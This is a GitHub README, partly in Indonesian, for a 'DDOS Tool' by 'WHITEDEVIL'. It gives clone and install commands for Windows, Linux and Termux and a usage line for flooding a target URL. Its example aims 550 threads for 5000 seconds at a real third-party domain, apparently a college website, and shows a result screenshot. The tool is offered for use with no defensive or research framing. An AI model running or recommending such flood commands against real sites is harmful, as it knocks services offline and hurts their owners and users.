 <h1 align="center">DDOS Tool</h1> 
<div align="center">
</div>


# :computer: Welcome
<p align="center">
  <img src="https://github.com/user-attachments/assets/8dee4873-6758-4747-90c7-8755ff069887">
</p>

# ⛔ INSTALL


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcR11tp5q3Bc5nb3EYXL3uvcFjkSWzkT43hdSQ&s" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt
```

```
python3 ddos.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 ddos.py --time 5000 --threads 550 --target https://giet.ac.in/ --method HTTP
```

RESULT :
![image](https://github.com/user-attachments/assets/4fd40b04-3a4a-4f4d-bfdc-09a2cb30fd79)



